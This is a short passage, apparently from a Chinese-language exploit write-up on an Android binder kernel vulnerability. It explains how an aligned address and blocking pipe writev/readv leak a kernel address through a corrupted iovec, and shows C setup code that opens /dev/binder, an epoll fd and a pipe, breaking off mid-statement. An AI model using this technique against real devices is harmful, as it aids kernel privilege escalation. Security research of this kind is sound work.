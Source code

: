 ![](first_binder_thread.png)

m_4gb_aligned_page为地址0x1000000000 在执行取消链接操作之前，remove_wait_queue尝试获取自旋锁。如果值不是0，则线程将继续循环，并且永远不会发生取消链接操作。由于iov_base是一个64位的值，我们希望确保低32位是0。

关键点在于利用writev pipe readv的堵塞，来读取破坏我们的iovc后填写的地址

```c
   printf("[+] start opening /dev/binder");
    m_binder_fd = open("/dev/binder",O_RDONLY);
    if (m_binder_fd < 0) {
            printf("\t[-] Unable to get binder fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_binder_fd: 0x%x\n", m_binder_fd);
        }


    printf("[+] Creating event poll\n");
   
        m_epoll_fd = epoll_create(1);
   
       if (m_epoll_fd < 0) {
            printf("\t[-] Unable to get event poll fd\n");
            exit(EXIT_FAILURE);
        } else {
            printf("\t[*] m_epoll_fd: 0x%x\n", m_epoll_fd);
        }


    printf("[+] setting up the pipe");
    if(pipe(pipe_fd)== -1){
        printf("[-] unable create pipe\n");
        exit(EXIT_FAILURE);
    }else{
        printf("create pipe successfully\n");
    }

    if(fcntl(pipe_fd[0],F_SETPIPE_SZ,PAGE_SIZE)== -1){
        printf("[-] Unable to change the pipe capacity\n");
        exit(EXIT_FAILURE);
    }else{
```